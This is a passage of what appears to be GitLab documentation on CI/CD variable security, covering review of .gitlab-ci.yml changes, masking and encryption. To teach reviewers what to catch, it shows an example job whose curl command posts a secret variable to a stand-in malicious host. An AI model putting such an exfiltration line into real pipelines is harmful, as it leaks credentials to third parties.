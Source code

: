      It is not possible to reference another variable if **Visibility** is set to **Masked** or **Masked and hidden**.

Alternatively, instance variables can be added [by using the API](../../api/instance_level_ci_variables.md).

## CI/CD variable security

Code pushed to the `.gitlab-ci.yml` file could compromise your variables. Variables could
be accidentally exposed in a job log, or maliciously sent to a third party server.

Review all merge requests that introduce changes to the `.gitlab-ci.yml` file before you:

- [Run a pipeline in the parent project for a merge request submitted from a forked project](../pipelines/merge_request_pipelines.md#run-pipelines-in-the-parent-project).
- Merge the changes.

Review the `.gitlab-ci.yml` file of imported projects before you add files or run pipelines against them.

The following example shows malicious code in a `.gitlab-ci.yml` file:

```yaml
accidental-leak-job:
  script:                                         # Password exposed accidentally
    - echo "This script logs into the DB with $USER $PASSWORD"
    - db-login $USER $PASSWORD

malicious-job:
  script:                                         # Secret exposed maliciously
    - curl --request POST --data "secret_variable=$SECRET_VARIABLE" "https://maliciouswebsite.abcd/"
```

To help reduce the risk of accidentally leaking secrets through scripts like in `accidental-leak-job`,
all variables containing sensitive information should always be masked in job logs.
You can also [limit a variable to protected branches and tags only](#protect-a-cicd-variable).

Alternatively, [connect with an external secrets management provider](../secrets/_index.md)
to store and retrieve secrets.

Malicious scripts like in `malicious-job` must be caught during the review process.
Reviewers should never trigger a pipeline when they find code like this, because
malicious code can compromise both masked and protected variables.

Variable values are encrypted using [`aes-256-cbc`](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
and stored in the database. This data can be read and decrypted with a
valid [secrets file](../../administration/backup_restore/troubleshooting_backup_gitlab.md#when-the-secrets-file-is-lost).

### Mask a CI/CD variable

{{< alert type="warning" >}}
